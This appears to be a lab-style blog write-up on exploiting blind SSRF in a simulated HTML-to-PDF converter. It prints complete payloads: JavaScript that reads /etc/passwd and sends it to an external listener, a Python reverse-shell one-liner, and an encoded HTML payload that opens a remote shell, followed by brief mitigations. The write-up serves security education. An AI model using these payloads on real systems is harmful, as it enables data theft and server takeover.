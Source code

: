 ```yaml
---
title: "Exploring Blind SSRF Vulnerabilities in HTML to PDF Conversion Applications"
date: 2023-04-23 19:08:00
categories: [ssrf-vulnerabilies]
tags: [ssrf]
---
```


## Overview

This post delves into a case study of a blind Server-Side Request Forgery (SSRF) vulnerability within a fictitious application designed for converting HTML documents to PDFs. The application, which is a simulated target in a controlled environment, highlights the subtlety and potential impact of SSRF vulnerabilities, especially when they do not provide direct feedback or error messages.

## Testing Environment and Setup

The target application listens on port 8080 and accepts HTML files for processing into PDF documents. Initial observations indicated that the server's response was identical regardless of the HTML content provided, suggesting no visible data processing errors or SSRF indications through the front-end.

## Conducting Blind SSRF Tests

To test for blind SSRF, we employed an external server setup to capture any outbound requests from the application. The test involved submitting an HTML file containing a reference to an image hosted on our external server:

    <!DOCTYPE html>
    <html>
    <body>
        <a>Hello World!</a>
        <img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
    </body>
    </html>


## Simplifying SSRF Blind Testing with Netcat

For our testing purposes, we employ a simple Netcat listener running on a virtual machine (VM), set to listen on port 9090. This setup allows us to capture any incoming requests and observe the web application's external interactions, which are pivotal in identifying and exploiting SSRF vulnerabilities.

### Setting Up the Netcat Listener

Here's the command to set up the Netcat listener, crucial for our SSRF testing:

  
    sudo nc -nlvp 9090
   

This command configures Netcat to listen on all interfaces at port 9090, ready to log any incoming requests.

### Observations After Submitting the HTML File

Upon submitting an HTML file containing external resource references, the application attempts to fetch these resources. This behavior confirms the existence of an SSRF vulnerability as it shows the application making unauthorized external network calls based on HTML content.

## JavaScript Exploitation and Data Exfiltration

Further exploration reveals that the application's PDF conversion tool, wkhtmltopdf, supports JavaScript execution within HTML files. We exploit this feature to perform data exfiltration as demonstrated below:

    
    <html>
    <body>
        <script>
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "file:///etc/passwd", true);
        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                // Encode the file contents in base64
                var b64content = btoa(xhr.responseText);
                // Send the encoded data to our external server
                var exfil = new XMLHttpRequest();
                exfil.open("GET", "http://<EXTERNAL SERVICE IP>:9090/exfil?data=" + b64content, true);
                exfil.send();
            }
        };
        xhr.send();
        </script>
    </body>
    </html>


This script reads the local `/etc/passwd` file and sends its Base64-encoded contents to our Netcat listener, showcasing a direct method of exploiting the SSRF vulnerability to extract sensitive information.


# Blind SSRF Exploitation with Netcat and Base64 Decoding

In this scenario, we use two XMLHttpRequest objects: one for reading local files and another to send this data to our server, encoded in Base64.

## Starting an HTTP Server and Sending Data

We start an HTTP server and send an HTML file that waits for a response and decodes the content after processing.

### Netcat Listener


    sudo nc -nlvp 9090
    Listening on 0.0.0.0 9090


### Base64 Decoding

We decode the information using Base64 to view the data received, which includes commands and system user information.

echo "<BASE64_DATA>" | base64 -d


## Blind SSRF Exploitation Scenario

We continue to exploit an internal application vulnerable to SSRF to execute remote commands on the target server. In this scenario, we use an HTML document with a specific payload to exploit the application.

### Bash Reverse Shell

We set up and encode a reverse shell payload to gain remote control of the server.

    export RHOST="<VPN/TUN IP>"; export RPORT="<PORT>"; python -c 'import sys, socket, os, pty; s=socket.socket(); s.connect((os.getenv("RHOST"), int(os.getenv("RPORT")))); [os.dup2(s.fileno(), fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'


### Encoded URL Payload

    export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527


### HTML Payload

    <html>
        <body>
            <b>Reverse Shell via Blind SSRF</b>
            <script>
            var http = new XMLHttpRequest();
            http.open("GET","http://host_ip/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.221%2522%253Bexport%2520RPORT%253D%25229090%2522%253Bpython%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
            http.send();
            http.onerror = function(){document.write('<a>Oops!</a>');}
            </script>
        </body>
    </html>


Once we initiate a Netcat listener on our machine and send the above HTML file, we will receive a reverse shell from host.


## Mitigation Strategies

To mitigate blind SSRF vulnerabilities effectively, it is crucial to:

- **Validate and sanitize all incoming data**, especially URLs and file paths, to prevent external resource references.
- **Implement strict allowlists** for outbound connections and protocols that the server is permitted to access.
- **Use secure programming practices** to disable unnecessary HTTP features that could be exploited via SSRF.
- **Regularly update and patch** third-party libraries and tools used for processing user-supplied content.

## Conclusion

Blind SSRF poses significant security risks, especially in applications that process external inputs to interact with internal or external resources. Understanding and implementing robust mitigation strategies are vital for securing web applications against these potential attacks and data breaches.